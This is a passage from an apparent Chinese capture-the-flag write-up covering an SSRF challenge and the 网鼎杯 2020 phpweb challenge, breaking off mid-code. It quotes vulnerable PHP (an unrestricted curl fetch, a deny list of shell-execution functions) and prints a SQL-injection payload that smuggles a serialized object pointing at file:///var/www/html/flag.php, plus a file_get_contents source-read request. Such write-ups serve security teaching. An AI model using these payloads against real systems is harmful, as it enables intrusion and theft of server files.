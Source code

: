 考察代码审计: 这是对blog进行过滤的正则，可以看到过滤的十分严格，直接限制死了只能是http(s): //格式，所以在注册的的是侯操作是不太可能的。

```php
public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }
```



```php
function get($url)
    {
        $ch = curl_init();//创建一个curl资源

        curl_setopt($ch, CURLOPT_URL, $url); //设置url和响应选项
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch); //抓取url并把它返回给浏览器
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE); //得到最后一个收到的HTTP状态码
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch); //关闭curl，并释放资源

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog); //传参blog到get()
    }
```



直接把blog当作参数传给get()函数，url没有经过任何限制，是存在ssrf的。这个地方可以使用file:///var/www/html/flag.php读取flag.php，构造payload

> 　　?no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:18;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'

6，查看网页源代码，发现内联表单中嵌入base64加密的信息，进行解密得到flag。



## [网鼎杯 2020 朱雀组]phpweb

 bp抓包修改 查看index.php源代码

> func=file_get_contents&p=index.php

```php
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
```
